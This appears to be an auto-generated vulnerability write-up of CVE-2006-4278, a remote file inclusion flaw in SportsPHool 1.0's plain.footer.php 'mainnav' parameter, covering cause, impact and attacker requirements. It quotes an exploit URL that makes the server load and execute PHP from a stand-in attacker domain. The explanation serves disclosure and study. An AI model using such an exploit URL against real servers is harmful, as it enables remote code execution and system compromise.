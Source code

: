Based on the provided information, here's a breakdown of the vulnerability:

**CVE ID:** CVE-2006-4278

**Vulnerable Software:** SportsPHool v1.0

**Root Cause of Vulnerability:**
The vulnerability stems from a lack of proper input sanitization in the `mainnav` parameter of the `plain.footer.php` file within the SportsPHool application. Specifically, the application directly includes the content from the provided `mainnav` URL without proper validation.

**Weaknesses/Vulnerabilities Present:**
- **Remote File Inclusion (RFI):** The primary vulnerability is an RFI, allowing an attacker to include a remote file from a URL they control.

**Impact of Exploitation:**
- **Arbitrary Code Execution:** By including a malicious PHP file, an attacker can achieve arbitrary code execution on the vulnerable server.
- **Complete System Compromise:** Successfully exploiting the RFI vulnerability could lead to complete system compromise if the attacker gains sufficient privileges via the included malicious code.

**Attack Vectors:**
- **HTTP GET Request:** The attacker sends an HTTP GET request to the vulnerable `plain.footer.php` script.
- **`mainnav` Parameter Manipulation:**  The `mainnav` parameter is manipulated to point to a remote file under the attacker's control.

**Required Attacker Capabilities/Position:**
- **Network Access:** The attacker needs network access to the vulnerable server.
- **Knowledge of Vulnerable Parameter:** The attacker must know the vulnerable parameter (`mainnav`) within the `plain.footer.php` file.
- **Ability to Host Malicious File:** The attacker needs to host a malicious PHP file on a server they control.

**Technical Details:**
The exploit example provided in exploit-db is:
`http://www.site.com/[SportsPHool_path]/includes/layout/plain.footer.php?mainnav=[http://www.myevilsite.com/evil_scripts.txt]`

This demonstrates how the `mainnav` parameter can be used to include a remote file from the attacker's controlled domain (`www.myevilsite.com`). The included file, `evil_scripts.txt`, would be executed as PHP code on the server.

This exploit leverages the lack of input sanitization, allowing remote file inclusion and potential arbitrary code execution.
